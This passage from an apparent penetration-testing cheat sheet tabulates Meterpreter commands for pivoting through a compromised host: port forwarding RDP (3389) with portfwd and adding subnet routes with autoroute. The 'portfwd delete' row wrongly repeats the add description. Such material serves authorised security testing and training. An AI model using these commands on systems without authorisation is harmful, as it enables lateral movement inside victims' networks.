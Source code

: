 Assuming you've compromised the target machine and have a meterpreter shell, you can pivot through it by setting up a **meterpreter port forward**.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd delete  –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd flush</code></p>
      </td>
      <td>
            <p>Meterpreter delete all port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>portfwd list</code></p>
      </td>
      <td>
            <p>Meterpreter list active port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>run autoroute -s 192.168.15.0/24</code></p>
      </td>
      <td>
            <p>Use Meterpreters autoroute script to add the route for specified subnet <code>192.168.15.0</code></p>
      </td>
    </tr>
